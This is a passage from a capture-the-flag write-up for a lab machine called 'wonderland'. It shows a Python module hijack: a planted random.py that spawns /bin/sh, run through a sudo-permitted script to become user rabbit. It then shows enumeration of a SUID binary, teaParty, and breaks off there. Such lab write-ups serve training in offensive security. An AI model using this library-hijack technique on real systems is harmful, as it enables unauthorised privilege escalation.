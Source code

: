 ```terminal
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$
```
walrus_and_the_carpenter.py can be exploited because it imports `random`.

So I decided to spawn shell by creating file called `random.py` in the same directory.

```terminal
alice@wonderland:~$ echo 'import os' > random.py
alice@wonderland:~$ echo 'os.system("/bin/sh")' >> random.py
```

Execute the file with /usr/bin/python3.6.

```terminal
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

And we got `Rabbit`.

```terminal
$ whoami
rabbit
```
## **<span style='color:#ff5555'>Privilege Escalation</span>**
***

There is a binary file in `/home/rabbit` that called teaParty

```terminal
$ cd /home
$ cd rabbit
$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

Run the Binary and we receive a message from it

```terminal
$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 06 Oct 2022 04:26:09 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped
```
The binary `teaParty` has SUID permissions, we cannot run strings in this machine, so I decided to transfer it to `/dev/shm` and send it to my machine.
